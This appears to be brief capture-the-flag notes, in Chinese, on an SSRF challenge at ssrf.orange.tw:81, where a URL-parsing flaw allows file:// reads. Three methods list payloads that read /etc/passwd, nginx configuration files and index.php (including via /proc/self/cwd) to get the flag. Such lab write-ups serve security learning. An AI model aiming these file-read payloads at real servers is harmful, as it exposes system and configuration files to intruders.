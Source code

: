 ## SSRF Flie Access
http://ssrf.orange.tw:81/ 存在URL解析漏洞，可以使用`file://`協議
### 方法1 
`file:///etc/passwd`發現使用者nginx
`file:///etc/nginx/nginx.conf`查看conf
`file:///etc/nginx/sites-enabled/default.conf`找到web root
`file:///www/index.php`取得flag
### 方法2
`file:///proc/self/cwd/index.php`
### 方法3
`file://index.php`

